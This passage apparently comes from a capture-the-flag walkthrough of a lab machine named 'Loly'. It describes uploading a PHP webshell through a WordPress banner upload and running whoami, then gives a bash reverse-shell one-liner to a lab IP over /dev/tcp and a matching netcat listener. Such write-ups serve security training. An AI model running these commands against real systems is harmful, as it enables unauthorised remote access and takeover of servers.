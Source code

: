 ![](Loly/13.png)

Bingo! We were successfully able to upload the file as banner and we executed the PHP file from `http://Loly.lc/wordpress/wp-content/banners/zero.php` and we executed `whoami` which gave us an appropriate response. Now, we just need a way to convert this webshell into a reverse shell.

**URL-encode this:**
- `/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.237/9001 0>&1'`

**Command:**
- `nc -lvnp 9001`

![](Loly/14.png)